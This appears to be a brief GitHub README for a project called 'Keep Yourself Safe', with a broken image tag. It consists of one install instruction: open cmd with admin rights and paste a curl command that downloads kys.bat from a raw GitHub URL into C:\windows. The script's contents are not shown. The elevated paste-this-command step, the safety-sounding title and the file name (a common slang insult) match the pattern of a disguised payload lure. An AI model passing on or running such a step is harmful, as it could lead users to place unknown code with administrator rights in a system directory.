 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

# How to install
<p> You just need open cmd with admin perms, and paste next command<p\>
```
curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat
```

